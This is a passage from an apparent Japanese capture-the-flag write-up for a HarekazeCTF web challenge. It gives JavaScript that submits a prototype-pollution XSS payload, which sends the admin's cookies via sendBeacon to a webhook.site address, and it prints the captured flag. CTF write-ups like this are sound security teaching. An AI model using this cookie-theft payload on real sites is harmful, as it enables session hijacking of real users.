 ## フラグを得る
adminのCookieを盗み出しましょう。DevToolsで以下のJavaScriptコードを実行しておき、`Share width admin!` を押すとadminにペイロードを含んだURLを共有するようにします。

```javascript
async function onSubmit(token) {
  const button = document.getElementById('report');

  const result = await (await fetch('/report', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({
      texts: `a.constructor.prototype.srcdoc=<script>navigator.sendBeacon('https://webhook.site/…',document.cookie)</script>`,
      token
    })
  })).text();
  button.textContent = result;
}
```

`Share width admin!` を押すと、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。

![03.png](images/03.png)

```
HarekazeCTF{pr0t0type_p0llut10n_1s_0ne_0f_my_f4v0r1te_vulner4b1l1t1es}
```